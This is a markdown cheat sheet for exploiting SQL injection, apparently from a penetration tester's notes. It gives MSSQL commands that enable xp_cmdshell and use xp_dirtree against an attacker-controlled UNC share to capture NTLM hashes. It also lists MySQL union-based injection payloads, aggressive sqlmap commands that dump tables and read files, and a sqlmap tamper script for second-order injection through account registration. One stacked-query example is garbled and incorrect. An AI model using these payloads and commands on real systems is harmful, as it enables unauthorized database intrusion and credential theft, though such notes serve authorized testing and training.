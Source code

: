 # Exploiting SQL Injections

## Manual

### MSSQL
There is a cool trick to get hashes out of mssql databases that sqlmap can not perform itself. Run admin/mssql/mssql_ntlm_stealer_sqli and at the same time run server/capture/smb. The SQL Injection will try to access an UNC-Path and therefore send us the authentcation. Sometimes the capture module fails and responder is required instead. What the nlm_stealer does is just issue dir_tree `master..xp_dirtree '\\<ip>\<db>';` to an attacker box share (must not exist).

MSSQL ist often vulnerable to stacked queries e.g. `union select 1,2,3,(select * from users.txt),5`

Useful mssql commands:

```sql cheat mssql connect to mssql server via sqsh
sqsh -S <ip> -U '<domain\<user>'
```

```sql cheat mssql enable xp_cmdshell (might need to prefix with EXEC) 
sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```
```sql cheat mssql dirtree (get ntlm hashes with responder or enumerate local filesystem with \\<localip>\c$)
master..xp_dirtree '\\<attackerip>\<non-existing share>';
```

```sql cheat mssql use sqlmap to connecto to mssql db and dump tables
sqlmap -d 'mssql://<domain>\<user>:<password>@<ip>:1433/<dbname>' --tables
```

### MYSQL
Start by causing an error by inserting special chars like `'`, then try to mitigate the error by adding comments like this this: `')-- -`.

#### Union Based
Guess the number of columns in the original query by using a union select which uses the same number of columns:
```
') union select 1 -- -
') union select 1,2 -- -
```
Also note which numbers might be displayed on the website (check source). Try replacing the ones that are displayed with build-in functions like @@version or version()

Try to retreive table and column information from information schema to make further queries. If length restricted try to guess them.

## Automated

### SQLMap
Default Command:
```bash cheat sqlmap Default Command
sqlmap -r <request copied from burp> --level 5 --risk 3 --dbms <mysql or mssql> --batch
```
If its a url based injection the injection point must be specified with `*` like in `sqlmap -u <IP>/users/*`. TO save some time it is advised to tell it which technique to use (in most cases `--technique=U` for union based)

To cope with second order sql injections it tamper scripts can be used (think of username on registration contains injection vunerablity, gets stored to database and is only executed in a vunlerable query after loggin into the application later). Example Tamper Script:

```cheat sqlmap Tamper Script
#!/usr/bin/env python
import requests
import re
from lib.core.enums import PRIORITY
from random import sample
__priority__ = PRIORITY.NORMAL

proxies = {
    "http": "http://127.0.0.1:8080",
}

def dependencies():
    pass

def create_account(payload):
    session = requests.Session()
    post_data = {'username':payload,'password':'<pass>','confirm_password':'<pass>'}
    session.post("http://<ip>/register.php", data=post_data, proxies=proxies)

def tamper(payload, **kwargs):
    create_account(payload)
    return payload
```
You have to implement the tamper function. To use it add --tamper=<filename> to the command line.

Dont ever use `-a` on sqlmap - it takes forever and doesnt give more usefull info than you can retrieve via --tables or --dump. 

SQLMap can also be used with credentials:
`sqlmap -d 'mssql://<user>:<pass>@<ip>:1433/<dbname>' --dump`


```bash cheat sqlmap using credentials
sqlmap -d 'mssql://<user>:<pass>@<ip>:1433/<dbname>' --dump
```

```bash cheat sqlmap downloading files
sqlmap -d 'mssql://<domain>\<user>:<pass>@<ip>:1433/volume' --priv-esc --file-read='<full path>'
```

tags: sql injection sqlmap tamper
